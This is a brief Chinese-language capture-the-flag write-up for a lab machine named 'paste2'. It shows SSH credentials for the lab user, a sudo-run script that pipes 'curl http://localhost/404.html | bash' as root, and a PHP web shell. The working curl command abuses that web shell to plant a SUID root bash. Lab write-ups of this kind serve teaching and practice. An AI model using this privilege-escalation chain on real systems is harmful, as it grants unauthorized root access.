








## paste2靶机


群友的靶机，群号：**660930334**









```bash
yi:0c2707999a
```

尝试 ssh 登录

成功：



## 提权



查看 opt/back.sh

他访问本地的 404.html，那么我们修改 404.html 看看行不行

```bash
yi@Paste2:/$ sudo find / -type f -iname '404.html' 2>/dev/null
```

没有任何输出

直接进入/var/www/html/创建 404.html ，没权限

问了问 gpt，出结果了：

提权思路：`yi` 用户可无密码 `sudo` 执行 `/opt/back.sh`，而 `back.sh` 的内容是 `curl -s http://localhost/404.html | bash`，即 **root 会拉取本机的 **`**/404.html**`** 并作为 shell 脚本执行**。同时，网站目录 `/var/www/html/0596004567_bkt/index.php` 含 `<?php system($_GET[0]); ?>`，允许把任意文本写入 webroot（由 `www-data` 执行）。

```bash
curl --get --data-urlencode "0=printf 'cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash' | tee /var/www/html/404.html" 'http://192.168.134.130/0596004567_bkt/index.php'
```




